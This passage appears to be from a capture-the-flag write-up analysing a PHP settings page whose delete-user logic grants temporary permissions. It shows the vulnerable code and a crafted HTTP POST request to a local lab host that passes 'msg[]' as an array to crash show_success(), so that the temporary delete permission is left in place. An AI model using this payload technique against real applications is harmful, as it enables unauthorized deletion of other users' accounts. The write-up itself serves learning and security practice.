 ## Settings

After logging in there were not many functions, we could only logout and visit a settings page.<br>
The settings page allows to delete our user, let's analyse the `settings.php` file:

```php
if (isset($_POST['delete-user'])) {
    $delete_uid = (int) $_REQUEST['uid'];
	// if I have perms = delete any user
    if (has_perms('users_delete', 'perms_delete')) {
        delete_user($delete_uid);
        show_success("User $delete_uid has been deleted.");
    // if not delete only myself
    } elseif ($delete_uid === $_SESSION['uid']) {
	    // adds perms
        add_tmp_perms('users_delete', 'perms_delete');
        delete_user($delete_uid);
        show_success($_REQUEST['msg']);
        // only removes perms here
        rm_tmp_perms('users_delete', 'perms_delete');
        header('Location: logout.php');
    } else {
        show_error('You do not have permission to delete users.');
    }
}
```

After analysing I instantly thought "race condition" if we can make a request as soon as we get perms, we can delete any user, not just ours.

Let's take a look at `show_success()` function:

```php
function show_success(string $success) {
    global $msgs;
    $msgs[] = ['type' => 'success', 'text' => $success];
}
```

Well this is enforcing string just like check_user_exists() did , let's try to crash it.

We send the following POST request, our account uid = 2

```http
POST /settings.php?uid=2&msg[]=HALT. HTTP/1.1
Host: lvh.me:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://lvh.me:8000
Connection: keep-alive
Referer: http://lvh.me:8000/settings.php
Cookie: PHPSESSID=a8aa98f03bcf527e0a144b90d0f87dbf
Upgrade-Insecure-Requests: 1
Priority: u=0, i

delete-user=Delete+my+account&msg[]=HALT.
```
